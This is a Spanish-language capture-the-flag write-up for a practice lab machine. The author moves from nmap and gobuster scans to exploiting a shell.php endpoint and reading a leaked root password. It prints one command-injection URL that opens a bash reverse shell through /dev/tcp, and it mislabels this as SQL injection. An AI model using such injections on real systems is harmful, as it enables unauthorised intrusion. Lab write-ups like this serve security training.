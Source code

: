 Lo primero es hacer un escaneo de puertos y servicios con nmap.

![Pasted image 20240710133744](https://github.com/user-attachments/assets/0682fbde-e40e-45a6-b036-ff6db31ef039)

Accedo al servicio http y lo que encuentro es una web donde aparentemente no encuentro nada útil.

![Pasted image 20240710133806](https://github.com/user-attachments/assets/0ce5a9fb-6230-4eab-98ce-89db5825be1d)

Al final de la página, encuentro el apartado de contacto donde dice que en el apartado /tmp de la máquina hay algo que puede ser interesante.

![Pasted image 20240710134112](https://github.com/user-attachments/assets/383eed6b-9e6a-428a-899b-31d112ed3c48)

Procedo a hacer un poco de fuzzing web con la herramienta gobuster para ver si puedo descubrir algunos directorios que a simple vista se encuentran ocultos.

![Pasted image 20240710134958](https://github.com/user-attachments/assets/c1b77044-6ffd-4cf1-830b-59709d7285cf)

Encuentro el apartado warning.html y shell.php.

Accedo a la dirección warning.html y encuentro el siguiente mensaje.

![Pasted image 20240710140227](https://github.com/user-attachments/assets/377d20f8-a27b-4c91-bee4-228185d04881)

Ahora decido acceder al apartado shel.php.

![Pasted image 20240710134025](https://github.com/user-attachments/assets/83fc3f70-d9f9-45ca-8d11-c4778fe2214b)

Voy a suponer que el apartado shell.php actúa como una consola, por lo que posiblemente pueda inyectar código sql a través de la url.

Para saber qué parámetro necesito para inyectar código, voy a hacer uso de la herramienta wfuzz de la siguiente manera.

![Pasted image 20240710135815](https://github.com/user-attachments/assets/15e48853-d4bf-4b29-8283-ecacee2b1d5c)

La herramienta me ha reportado que el parámetro que necesito es parameter.

Lo primero que hago es ponerme en escucha por el puerto indicado para posteriormente recibir una reverse shell y ganar acceso al sistema.

![Pasted image 20240710140152](https://github.com/user-attachments/assets/23cc038c-5782-46c6-af14-faeecd4f78f6)

Ahora inyecto código a la url de manera que me proporcione una reverse shell a la ip y el puerto indicados.

``` sqli
http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/172.17.0.2/4343 0>%261"
```

![Pasted image 20240710140212](https://github.com/user-attachments/assets/5c3efb47-7a12-4157-80c8-769174dc5190)

Cuando ejecuto la inyección, gano acceso a un terminal.

Soy el usuario www-data.

Descubro un documento secreto.txt y listo su contenido, obteniendo una supuesta password contraseñaderoot123.

![Pasted image 20240710140412](https://github.com/user-attachments/assets/eb5aeeb1-1e74-4aaf-a622-bfb6b5272d56)

Intento iniciar sesión como root introduciendo la posible password que he obtenido anteriormente.

![Pasted image 20240710140523](https://github.com/user-attachments/assets/3f5e9e32-988c-4957-8cc7-7470ef144d49)
